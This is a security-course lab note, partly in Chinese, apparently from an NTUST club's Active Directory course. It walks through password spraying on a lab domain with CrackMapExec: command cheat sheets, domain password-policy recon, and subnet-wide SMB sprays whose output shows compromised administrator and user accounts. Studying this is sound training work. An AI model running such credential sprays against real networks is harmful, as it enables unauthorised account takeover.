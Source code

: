 ```yaml
---
title: NTUSTISC - AD Note - Lab(Password Spraying)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(Password Spraying)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
* 密碼收集
    * SAM.hive(Security Account Manager)
    * Password Spraying(用猜的)
        * 和brute force差在哪裡呢?其實概念一樣，只是角度不一樣，brute force是針對一隻帳號，用很多的密碼去猜；而password spraying則是用一組密碼去爆所有的帳號，其實就是反過來
        * Tool: [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) - 結合各種功能的內網滲透神器
    * GPO
    * 記憶體(lsass)
## Lab
### ==Password Spraying==
1. How to use?
    * Cheat Sheet
        ```bash
        $ crackmapexec <protocol> <target(s)> -u <a file or string only> -p <a file or string only>

        # For example
        $ crackmapexec smb 10.10.10.100 -u administrator -p Passw0rd
        $ crackmapexec smb 10.10.10.100 -u ~/file_usernames -p ~/file_passwords
        $ crackmapexec smb 10.10.10.100 -u administrator -p Passw0rd --local-auth
        $ crackmapexec smb <filename> -u administrator -p Passw0rd --local-auth
        ```
        `--local-auth`代表是用本機帳號的角度登入，就不是用domain admin的角度登入
2. Recon Password Policy
    在PowerShell中使用`$ Get-ADDefaultDomainPasswordPolicy`調查Domain上的密碼原則，Note: ==Win2016要打開==
    ```bash
    $ Get-ADDefaultDomainPasswordPolicy                                                        

    ComplexityEnabled           : False
    DistinguishedName           : DC=kuma,DC=org
    LockoutDuration             : 00:01:00
    LockoutObservationWindow    : 00:01:00
    LockoutThreshold            : 0
    MaxPasswordAge              : 00:00:00
    MinPasswordAge              : 00:00:00
    MinPasswordLength           : 4
    objectClass                 : {domainDNS}
    objectGuid                  : 29531761-1cf9-452c-8ee7-d5056e01d82b
    PasswordHistoryCount        : 24
    ReversibleEncryptionEnabled : False
    ```
    要注意的地方：
    * LockoutThreshold: 可以錯誤嘗試的次數，0就代表沒有設定，可以無限次數的爆破，如果有設定例如5，那可能就要修改攻擊策略，可能每天不能試超過兩次之類的，讓原使用者也還有容錯的空間可以登入
    * MinPasswordLength: 大多數使用者會遵從最小密碼原則，如果要猜密碼就可以嘗試從四位密碼以上開始猜
3. Check IP
    首先我們要先看一下AD的IP為多少，通常我們要做這種password spraying都是對著AD，所以我們要先尋找目標
    ```bash
    $ ipconfig

    Windows IP Configuration


    Ethernet adapter Ethernet0:

       Connection-specific DNS Suffix  . : localdomain
       Link-local IPv6 Address . . . . . : fe80::651f:6e78:505f:75f%5
       IPv4 Address. . . . . . . . . . . : 192.168.222.128
       Subnet Mask . . . . . . . . . . . : 255.255.255.0
       Default Gateway . . . . . . . . . : 192.168.222.2

    Tunnel adapter isatap.localdomain:

       Media State . . . . . . . . . . . : Media disconnected
       Connection-specific DNS Suffix  . : localdomain
    ```
    IP: `192.168.222.128`
4. 在Kali使用CrackMapExec
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u administrator -p 1qaz@WSX3edc             
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
    ```
    可以看到這個網段底下的確有兩個主機的密碼被Pwn出來
5. Lab
    ==找出使用預設密碼(Changeme123!)的使用者
    找出使用(ncc1701)作為密碼的使用者==

    我先試著用前面提到的leak password from description中找到的兩組密碼實際測試看看
    帳密一、Lina Allene→`r2NE4/9:F;[k`
    帳密二、Fara Iseabal→`8F%kJ2q_cVFg`
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p r2NE4/9:F\;\[k
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [-] kuma.org\Administrator:r2NE4/9:F;[k STATUS_LOGON_FAILURE 
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [-] kuma.org\aleda.appolonia:r2NE4/9:F;[k STATUS_LOGON_FAILURE
    ...
    ```
    的確是lina.allene的密碼
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p 8F%kJ2q_cVFg
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\Administrator:8F%kJ2q_cVFg STATUS_LOGON_FAILURE 
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\aleda.appolonia:8F%kJ2q_cVFg STATUS_LOGON_FAILURE
    ...
    ```
    的確是fara.iseabal的密碼
    
    ---
    
    先利用win2016查詢`$ net user`然後把結果存成一個file，然後-u後面帶這個file
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p Changeme123\!
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\Administrator:Changeme123! STATUS_LOGON_FAILURE 
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\aleda.appolonia:Changeme123! STATUS_LOGON_FAILURE
    ...
    ```
    由於這個密碼的spraying結果沒有像前面兩個這麼明確，只有ella.randee的結果與別人不一樣，我不確定是不是command下錯之類的，但結果只有這樣
    ```bash
    crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p ncc1701
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\Administrator:ncc1701 STATUS_LOGON_FAILURE 
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\aleda.appolonia:ncc1701 
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [-] kuma.org\Administrator:ncc1701 STATUS_LOGON_FAILURE 
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [+] kuma.org\aleda.appolonia:ncc1701
    ```
    最後結果顯示是aleda.appolonia這個使用者的密碼為ncc1701